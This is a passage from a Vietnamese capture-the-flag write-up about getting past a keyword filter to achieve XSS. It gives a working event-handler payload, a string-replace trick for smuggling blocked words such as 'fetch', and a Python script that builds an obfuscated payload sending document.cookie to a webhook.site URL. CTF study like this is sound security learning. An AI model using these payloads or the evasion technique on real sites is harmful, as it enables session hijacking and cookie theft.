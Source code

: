 ![image](https://hackmd.io/_uploads/rkjBn4moyx.png)

Và từ đó challenge trở thành bypass xss

![image](https://hackmd.io/_uploads/ryHAJB7jkl.png)

Ok thì mình tìm và thử các payload và thấy cái này là xài ngon

```html
<input type=hidden oncontentvisibilityautostatechange="prompt(1)" style=content-visibility:auto>
```

Đưa vào và ta có thể triệu hồi prompt. Ở đây mình không xài alert vì đã bị filter rồi 

![image](https://hackmd.io/_uploads/ryrQbLmi1x.png)

Ngay cả fetch cũng bị filter...

![image](https://hackmd.io/_uploads/SkToML7ikx.png)

Vậy là hết cứu rồi sao? Không sao mình sẽ tiếp tục debug và thấy rằng nó sẽ split payload và lấy các word của mình thông qua một lệnh regex 

![image](https://hackmd.io/_uploads/rksYMI7o1x.png)

Ví dụ như sau : 

![image](https://hackmd.io/_uploads/S1NAM8Xo1x.png)

Ok từ đây mình có ý tưởng là sử dụng từ fetch kết hợp với một từ nào đó để cho thằng regex split ra nhưng không thể tìm được sau đó mình thực hiện replace hoặc split là xong 

![image](https://hackmd.io/_uploads/Bkc4m8mi1x.png)

Ok và ta sẽ thử payload sau

```html
<input type=hidden oncontentvisibilityautostatechange="console.log(`fetchabc`.replace(`abc`, ``)" style=content-visibility:auto>
```

![image](https://hackmd.io/_uploads/H1BYmUXsJl.png)

Ok và ta đã lấy được chữ fetch mà không bị filter. Để automatic thì mình viết script để làm y chang với từng ký tự luôn.

```python
payload = ""
s = "fetch('https://webhook.site/4e8ba4a0-ce61-41ca-b16f-802804f6f5a2/?'+document.cookie)"
payload += '`'
for i in s:
    payload += (i+"abc")
payload += '`'
for i in s:
    payload += ".replace('abc','')"
print(payload.replace("+", "%2b"))
```
